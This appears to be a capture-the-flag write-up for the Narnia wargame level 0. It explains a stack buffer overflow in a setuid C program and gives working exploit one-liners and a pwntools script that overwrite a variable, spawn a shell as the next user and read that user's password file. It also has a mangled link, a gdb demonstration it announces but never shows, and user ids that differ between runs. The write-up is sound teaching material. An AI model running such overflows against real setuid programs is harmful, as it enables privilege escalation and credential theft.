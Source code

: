 Introduction
============

There are two files related to this level.
The first one is named ```/narnia/narnia0```. It's a [setuid](https://en.wikipedia.org/wiki/Setuid) binary which we obviously have to [exploit](https://en.wikipedia.org/wiki/Exploit_(computer_security)) in order to gain access to the next level:

```
narnia0@narnia:~$ ls -al /narnia/narnia0
-r-sr-x--- 1 narnia1 narnia0 7460 Oct 23 04:22 /narnia/narnia0
```

The other file which is related to this level is a [C](https%3A%2F%2Fen.wikipedia.org%2Fwiki%2FC_(programming_language)&usg=AOvVaw3vI8WzyDIw4n3m42_eXFeI source code) file which intention is to explain us the internal workflow of the binary ```/narnia/narnia0```:

```
narnia0@narnia:~$ cat /narnia/narnia0.c

#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

When looking at the code we can see that there are two variables. One is named ```val``` and has a value of ```0x41414141``` already assigned. The other one is a char array named ```buf``` with a size of 20 bytes. After two lines of informational output using ```printf()``` there is a call to ```scanf()``` which reads in 24 bytes and stores them into the char array ```buf[20]```. Or in other words: when the program is executed, the user can input more data than the input buffer can handle. That's a so-called [Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow). More precisely it's a so-called [Stack Overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) which has first and foremost been described by a hacker named Aleph One in his legendary article [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html).

The aim of ```/narnia/narnia0``` is to input the right amount and type of data in order to overflow the char buffer ```buf[20]``` and therefore overwrite the value of ```0x41414141``` which is stored in the variable ```val``` to the new value of ```0xdeadbeef```. 
If this has been achieved, a new shell is opened with the access rights of the next level's user ```narnia1```. This will let us execute additional commands in order to gain narnia1's password.


Theory
======

Let's start with some theory first in order to understand [Stack based Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow) and the [x86 architecture](https://en.wikipedia.org/wiki/X86). Both is required to successfully overflow the buffer with reasonable data in order to modify the program's workflow. Speaking of *reasonable* data, modern computer systems include some techniques to prevent and/or reduce the risk of buffer overflows. But since the narnia wargame doesn't use any [stack protection techniques](https://unix.stackexchange.com/questions/66802/disable-stack-protection-on-ubuntu-for-buffer-overflow-without-c-compiler-flags) we don't have to care about this right now. 

As mentioned before, the hardware platform where the narnia wargame is running on is x86. More precisely it's [x86_64](https://en.wikipedia.org/wiki/X86-64). Let's see if that's true:

```
narnia0@narnia:~$ uname -i
x86_64
```

The operating system of the narnia wargame is [Linux](https://en.wikipedia.org/wiki/Linux), of course this can be checked as well:

```
narnia0@narnia:~$ uname -o
GNU/Linux
```

And since we are already in the process of gathering required information about our target, let's determine some more details about the setuid binary file named ```/narnia/narnia0``` which we later want to exploit: 

```
narnia0@narnia:~$ file /narnia/narnia0
/narnia/narnia0: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=dd54e629928af495112df911bb651846c281d5d8, not stripped
```

As we can see it's a 32-bit compiled Linux [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) binary [executable](https://en.wikipedia.org/wiki/Executable) file which is [dynamically linked](https://stackoverflow.com/questions/311882/what-do-statically-linked-and-dynamically-linked-mean) and is [not stripped](https://unix.stackexchange.com/questions/2969/what-are-stripped-and-not-stripped-executables-in-unix). This means that we can let it run inside of a [debugger](https://en.wikipedia.org/wiki/Debugger) or a similar analyzis tools in order to take a look into the program's internals and/or to understand its workflow compared to the source code.


Preparation
===========

After some basic grey theory let's start with some experiments in order to learn and understand more required theory as well introducing useful tools and techniques.

We start by executing the binary ```/narnia/narnia0``` for the first time. As we already have analyzed, the program let's you enter arbitrary text that gets stored in a buffer that has a size of 20 bytes. Let's start doing this with less than 20 characters just to see what happens. 
Since we are too lazy to (repeatedly) type 10 or more characters, we [pipe](https://en.wikipedia.org/wiki/Pipeline_(Unix)) our input into the program's [```STDIN```](https://en.wikipedia.org/wiki/Standard_streams) using some [Python](https://en.wikipedia.org/wiki/Python_(programming_language)) magic:

```
narnia0@narnia:~$ python -c 'print "B"*10' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBB
val: 0x41414141
WAY OFF!!!!
```

What we can see ist that the char array ```buf[20]``` now contains 10 times the letter 'B' while the value of variable ```val``` remains 0x41414141. That's what we expected so far. 
Just a side note: The term ```0x41``` has a special meaning in cyber security. 0x41 is the [hexadecimal](https://en.wikipedia.org/wiki/Hexadecimal) representation of the letter 'A' as described in the [ASCII](https://en.wikipedia.org/wiki/ASCII) character encoding standard. The letter 'A' or its hexadecimal expression 0x41 are used to fill buffers in order to analyze a program's flow like we previously did. Using an 'A' or 0x41 is just some kind of a [convention](https://security.stackexchange.com/questions/18680/why-is-0x41414141-associated-with-security-exploits) because people found out that filling buffers with a sequence of identical characters simplifies looking for them in process memory later on. Since the pre-assigned value of ```val``` already contains a sequence of A's and therefore a sequence of 0x41's, we decided to fill the buffer ```buf``` with a sequence of the letter 'B' which is 0x42 in hexadecimal. This enables us to differenciate between the contents of the variable ```val``` and the contents of buffer ```buf[20]```. Let's open the program in the GNU Debugger (gdb) in order to visualize this behavior:

The expectation is that if we enter exactely these 20 characters, the buffer ```buf[20]``` gets filled with the characters and everything is fine.

```
narnia0@narnia:~$ python -c 'print "B"*20' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBB
val: 0x41414100
WAY OFF!!!!
```

Solution
========

```
narnia0@narnia:~$ (echo -n -e "AAAAAAAAAAAAAAAAAAAA\\xef\\xbe\\xad\\xde";cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
cat /etc/narnia_pass/narnia1
efeidiedae
```

Alternative using Python:
```
narnia0@narnia:~$ (python -c 'print "B"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
cat /etc/narnia_pass/narnia1
efeidiedae
```

Alternative using pwntools:

Copy the following code into a file named ```/tmp/exploit0.py```.

```
from pwn import *

context.update(arch='i386', os='linux')

payload  = cyclic(cyclic_find(0x61616166))
payload += p32(0xdeadbeef)
print(payload)

p = process("/narnia/narnia0")
p.sendline(payload)
p.interactive()
```
Execute the previously created Python code:
```
narnia0@narnia:~$ python /tmp/exploit0.py
aaaabaaacaaadaaaeaaaﾭ�
[+] Starting local process '/narnia/narnia0': pid 1295
[*] Switching to interactive mode
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaabaaacaaadaaaeaaaﾭ�
val: 0xdeadbeef
$ id
uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
$ cat /etc/narnia_pass/narnia1
efeidiedae
$ exit
```
